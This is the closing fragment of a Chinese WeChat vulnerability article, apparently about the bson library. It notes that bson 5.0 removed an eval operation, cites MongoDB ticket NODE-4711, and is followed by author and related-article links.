  
  
bson5.0中直接删除了该eval操作  
  
https://jira.mongodb.org/browse/NODE-4711  
  
  
  
  
  
  
**作者名片**  
  
  
  
  
  
  
  
  
**往 期 热 门**  
  
(点击图片跳转）  
  
[](http://mp.weixin.qq.com/s?__biz=MzAxNDY2MTQ2OQ==&mid=2650967609&idx=1&sn=2a769c5fbaadb44d3b1b93a5695ff24e&chksm=8079cc0bb70e451deec8a84910e4851a7828d85458f6eb2aaee54556d7f2add623420b599b97&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzAxNDY2MTQ2OQ==&mid=2650967549&idx=1&sn=e0466ea46609c8934acb8bc8f45090d7&chksm=8079cfcfb70e46d923d146acc3b67003b7b051c25c05c6ad1e553d1cd55bc407b680905007ed&scene=21#wechat_redirect)  
  
[](http://mp.weixin.qq.com/s?__biz=MzAxNDY2MTQ2OQ==&mid=2650967612&idx=1&sn=ac3a298f1d1bc5efcd9d94cfbfd93586&chksm=8079cc0eb70e45188c719d641fbefc9cf484ae65a5c4de12710fb6a18f8e3dc496ce2cf7592e&scene=21#wechat_redirect)  
  
  
  
  
  
戳  
“阅读原文”  
更多精彩内容!  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
